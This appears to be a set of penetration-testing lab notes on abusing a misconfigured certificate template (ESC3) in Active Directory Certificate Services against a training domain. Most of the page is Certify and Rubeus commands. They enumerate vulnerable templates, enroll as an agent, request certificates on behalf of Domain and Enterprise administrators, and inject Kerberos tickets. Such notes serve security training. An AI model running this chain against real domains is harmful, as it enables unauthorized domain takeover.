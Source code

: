 ### Tool

Certify tool (https://github.com/GhostPack/Certify)

```
Enumerate information about all registered CAs
Certify.exe cas

Enumerate the templates
Certify.exe find

Enumerate vulnerable templates
Certify.exe find /vulnerable
```

**ESC 3**

The template "SmartCardEnrollment-Users" has an Application Policy Issuance Requirement of Certificate Request Agent and has an EKU that allows for domain authentication. Search for domain authentication EKU:

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Certify.exe find /json /outfile:C:\AD\Tools\file.json ((Get-Content C:\AD\Tools\file.json | ConvertFromJson).CertificateTemplates | ? {$_.ExtendedKeyUsage -contains "1.3.6.1.5.5.7.3.2"}) | fl *

Escalate to DA
We can now request a certificate for Certificate Request Agent from "SmartCardEnrollmentAgent" template.
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA
/template:SmartCardEnrollment-Agent

Convert from cert.pem to pfx (esc3agent.pfx below) and use it to request a certificate on behalf of DA using the "SmartCardEnrollment-Users" template.
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA
/template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator
/enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123

Convert from cert.pem to pfx (esc3user-DA.pfx below), request DA TGT and inject it:
Rubeus.exe asktgt /user:administrator /certificate:esc3user-DA.pfx
/password:SecretPass@123 /ptt
<strong>
</strong>
</code></pre>

_Escalate to EA_

{% code overflow="wrap" %}
```
Convert from cert.pem to pfx (esc3agent.pfx below) and use it to request a
certificate on behalf of EA using the "SmartCardEnrollment-Users" template.
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorpMCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:moneycorp.local\administrator
/enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123

Request EA TGT and inject it.
Rubeus.exe asktgt /user:moneycorp.local\administrator /certificate:esc3user.pfx /dc:mcorp-dc.moneycorp.local /password:SecretPass@123 /ptt
```
{% endcode %}
